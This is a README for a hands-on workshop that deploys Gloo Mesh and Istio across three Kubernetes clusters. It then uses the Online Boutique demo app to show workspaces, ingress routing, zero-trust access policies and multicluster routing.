

# <center>Gloo Mesh Online Boutique Demo Workshop</center>

## Table of Contents

* [Introduction](#introduction)
* [Lab 1 - Deploy Kubernetes clusters](#Lab-1)
* [Lab 2 - Deploy Gloo Mesh](#Lab-2)
* [Lab 3 - Deploy Istio](#Lab-3)
* [Lab 4 - Deploy Online Boutique](#Lab-4)
* [Lab 5 - Configure Gloo Mesh Workspaces](#Lab-5)
* [Lab 6 - Expose the Online Boutique](#Lab-6)
* [Lab 7 - Zero Trust Networking](#Lab-7)
* [Lab 8 - Multicluster Routing](#Lab-8)
* [Lab 9 - Multicluster Failover](#Lab-9)
* [Lab 10 - API Gateway](#Lab-10)

## Introduction <a name="introduction"></a>

[Gloo Mesh Enterprise](https://www.solo.io/products/gloo-mesh/) simplifies the adoption of a service mesh across single or many clusters. It is Enterprise [Istio](https://istio.io) with production support, N-4 support, CVE patching, FIPS builds, and a multi-cluster operational management plane to simplify running a service mesh across multiple clusters or a hybrid deployment. 

Gloo Mesh also has features around multi-tenancy, global failover and routing, observability, and east-west rate limiting and policy enforcement (through AuthZ/AuthN plugins). 



### Observability & UI

When you install Gloo Mesh Enterprise, you get the Gloo Mesh UI which allows you to review the health and configuration of Gloo Mesh custom resources, including registered clusters, workspaces, networking, policies, and more.



Gloo Mesh uses agents to consolidate all the metrics and access logs from the different clusters. A Service Graph can then be used to monitor all the communication happening globally.



### Want to learn more about Gloo Mesh?

You can find more information about Gloo Mesh in the official documentation:

[https://docs.solo.io/gloo-mesh/latest/](https://docs.solo.io/gloo-mesh/latest/)

## Begin

To get started with this workshop, checkout this repo.

```sh
git clone https://github.com/solo-io/solo-cop.git
cd solo-cop/workshops/gloo-mesh-demo && git checkout v1.0.1
```

Set these environment variables which will be used throughout the workshop.

```sh
# Used to enable gloo mesh (please ask for a trail key)
export GLOO_MESH_LICENSE_KEY=<licence_key>
export GLOO_MESH_VERSION=v2.0.7

# Istio version information
export ISTIO_IMAGE_REPO=<please ask for repo information>
export ISTIO_IMAGE_TAG=1.13.4-solo
export ISTIO_VERSION=1.13.4
```

## Lab 1 - Configure/Deploy the Kubernetes clusters <a name="Lab-1"></a>

You will need to create three Kubernetes Clusters. Two will be used as your workload clusters and the last one will be used as the managment plane.



This workshop can run on many different Kubernetes distributions such as EKS, GKE, OpenShift, RKE, etc or you can [create local k3d clusters](./infra/k3d/README.md).

Set these environment variables to represent your three clusters.
```sh
export MGMT=mgmt
export CLUSTER1=cluster1
export CLUSTER2=cluster2
```

Rename the kubectl config contexts of each of your three clusters to `mgmt`, `cluster1` and `cluster2` respectively.

```sh
# UPDATE <context-to-rename> BEFORE APPLYING
kubectl config rename-context <context-to-rename> ${MGMT} 
kubectl config rename-context <context to rename> ${CLUSTER1} 
kubectl config rename-context <context to rename> ${CLUSTER2}
``` 

Run the following command to make `mgmt` the current cluster.

```sh
kubectl config use-context ${MGMT}
```

## Lab 2 - Deploy Gloo Mesh <a name="Lab-2"></a>

1. Download `meshctl` command line tool and add it to your path

```sh
curl -sL https://run.solo.io/meshctl/install | GLOO_MESH_VERSION=${GLOO_MESH_VERSION} sh -

export PATH=$HOME/.gloo-mesh/bin:$PATH
```

2. Run the following commands to deploy the Gloo Mesh management plane:

```sh
meshctl install \
  --kubecontext $MGMT \
  --set mgmtClusterName=$MGMT \
  --license $GLOO_MESH_LICENSE_KEY
```

The management server exposes a grpc endpoint (`kubectl get svc gloo-mesh-mgmt-server -n gloo-mesh`) which the agents in the workload clusters will connect to.

3. Finally, you need to register the two other clusters by deploying the gloo mesh agents.

```sh
meshctl cluster register \
  --kubecontext=$MGMT \
  --remote-context=$CLUSTER1 \
  $CLUSTER1

meshctl cluster register \
  --kubecontext=$MGMT \
  --remote-context=$CLUSTER2 \
  $CLUSTER2
```

** Problems? ** meshctl tries to automatically detect the management server endpoint, but sometimes this can fail. If that happens, it can be supplied manually. Follow the steps [here](problems-manual-registration.md) if you run into this.

4. Apply the RootTustPolicy to tell the management plane to handle setting up a [shared trust](https://docs.solo.io/gloo-mesh-enterprise/latest/setup/prod/certs/federate-identity/) between the two workload clusters. 

```yaml
cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: RootTrustPolicy
metadata:
  name: root-trust-policy
  namespace: gloo-mesh
spec:
  config:
    mgmtServerCa:
      generated: {}
    autoRestartPods: true
EOF
```

6. Verify proper installation by opening the Gloo Mesh UI by running `meshctl dashboard`. Click [here](problems-dashboard.md) if that command did not work. **Its best to run this command in a separate terminal.**

```sh
meshctl dashboard
```

## Lab 3 - Deploy Istio on the Workload Clusters<a name="Lab-3"></a>

1. Install [istioctl](https://istio.io/latest/docs/setup/getting-started/)

```sh
curl -L https://istio.io/downloadIstio | ISTIO_VERSION=${ISTIO_VERSION} sh -
export PATH=$PWD/istio-${ISTIO_VERSION}/bin:$PATH

istioctl version
```

2. Install Istio to each of the remote clusters. If you're using local Kubernetes clusters on a Mac M1 or M2, use [these ARM instructions](problems-istio-arm.md) instead.

```sh
kubectl create namespace istio-gateways --context $CLUSTER1
istioctl install --set hub=$ISTIO_IMAGE_REPO --set tag=$ISTIO_IMAGE_TAG  -y --context $CLUSTER1 -f install/istio/istiooperator-cluster1.yaml

kubectl create namespace istio-gateways --context $CLUSTER2
istioctl install --set hub=$ISTIO_IMAGE_REPO --set tag=$ISTIO_IMAGE_TAG  -y --context $CLUSTER2 -f install/istio/istiooperator-cluster2.yaml
```

3. Verify in the Gloo Mesh UI that the deployed Istio information was discovered.



## Lab 4 - Deploy Online Boutique <a name="Lab-4"></a>



1. Deploy the Online Boutique backend APIs to `cluster1` in the `backend-apis` namespace.

```sh
kubectl apply --context $CLUSTER1 -f install/online-boutique/backend-apis.yaml
```

2. Deploy the frontend UI to the `web-ui` namespace in `cluster1`.

```sh
kubectl apply --context $CLUSTER1 -f install/online-boutique/web-ui.yaml
```

## Lab 5 - Configure Gloo Mesh Workspaces <a name="Lab-5"></a>



1. Create config namespaces in the `mgmt` cluster for each workspace.

```sh
kubectl create namespace ops-team --context $MGMT
kubectl create namespace web-team --context $MGMT
kubectl create namespace backend-apis-team --context $MGMT
```

2. Apply the workspaces to the Gloo Mesh Management Plane root config namespace `gloo-mesh`.

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: ops-team
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: 'mgmt'
    namespaces:
    - name: ops-team
  - name: '*'
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
---
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: web-team
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: 'mgmt'
    namespaces:
    - name: web-team
  - name: '*'
    namespaces:
    - name: web-ui
---
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: backend-apis-team
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: 'mgmt'
    namespaces:
    - name: backend-apis-team
  - name: '*'
    namespaces:
    - name: backend-apis
EOF
```

3. Apply the settings for each workspace. These `WorkspaceSettings` objects are used to tune each indiviual workspace as well as import/export resources from other workspaces. 

```sh
kubectl apply --context $MGMT -f tracks/02-workspaces/workspace-settings-ops-team.yaml
kubectl apply --context $MGMT -f tracks/02-workspaces/workspace-settings-web-team.yaml
kubectl apply --context $MGMT -f tracks/02-workspaces/workspace-settings-backend-apis-team.yaml
```

## Lab 6 - Expose the Online Boutique <a name="Lab-6"></a>



1. Apply the VirtualGateway to define the listeners and hosts for `cluster1` ingress gateway.

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: ops-team
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
        namespace: istio-gateways
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
          selector:
            workspace: web-team
EOF
```

2. Apply the RouteTable for the web team to define where traffic for the gateway should go.

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: frontend
  namespace: web-team
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: ops-team
      cluster: mgmt
  workloadSelectors: []
  http:
    - name: frontend
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: web-ui
              cluster: cluster1
            port:
              number: 80
EOF
```

3. Open the Online Boutique in your browser

```sh
export HTTP_GATEWAY_ENDPOINT=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):80

echo "Online Boutique available at http://$HTTP_GATEWAY_ENDPOINT"
```

## Lab 7 - Zero Trust Networking <a name="Lab-7"></a>

1. Add a default deny-all policy to the backend-apis namespace

```yaml
cat << EOF | kubectl --context ${CLUSTER1} apply -f -
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
 name: default-deny
 namespace: backend-apis
spec:
  {}
EOF
```

2. Refresh the Online Boutique webpage. You should see an error with message "RBAC: access denied"

3. Add AccessPolicies to explicitly allow traffic from the frontend to the backend apis

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: in-namespace-access
  namespace: backend-apis-team
spec:
  applyToDestinations:
  - selector:
      workspace: backend-apis-team
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          namespace: backend-apis
---
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: frontend-api-access
  namespace: backend-apis-team
spec:
  applyToDestinations:
  - selector:
      workspace: backend-apis-team
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          workspace: web-team
EOF
```

4. Refresh the Online Boutique webpage. You should be able to view it again. 

5. Next, click on an item and click Add to Cart. You should see this error message:



This is because checkout microservice is not deploy yet! `kubectl get deployments -n backend-apis --context $CLUSTER1`

## Lab 8 - Multi Cluster Routing <a name="Lab-8"></a>

Next, lets deploy checkout microservice to cluster2 and let Gloo Mesh handle the routing between the two clusters. Gloo Mesh uses Virtual Destinations, which allow you to define unique internal hostnames for apps that are spread across multiple clusters.




1.  Deploy the checkout feature to `cluster2`

```sh
kubectl apply --context $CLUSTER2 -f install/online-boutique/checkout-feature.yaml
```

2. Create a VirtualDestination with hostname `checkout.backend-apis-team.solo-io.mesh` for the checkout service.

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: checkout
  namespace: backend-apis-team
spec:
  hosts:
  - checkout.backend-apis-team.solo-io.mesh
  services:
  - labels:
      app: checkoutservice
  ports:
  - number: 80
    protocol: GRPC
    targetPort:
      name: grpc
EOF
```

3. Lets go ahead and create VirtualDestinations for currency, shipping and cart services as well.

```sh
kubectl apply --context $MGMT -f tracks/04-multi-cluster-routing/virtual-destinations.yaml
```

4. Wait a few seconds for the new frontend microservice and then try to add items to your cart again. You should see the checkout page served by cluster2:


5. Explore the Graph feature in the Gloo Mesh Dashboard by running `meshctl dashboard` again.
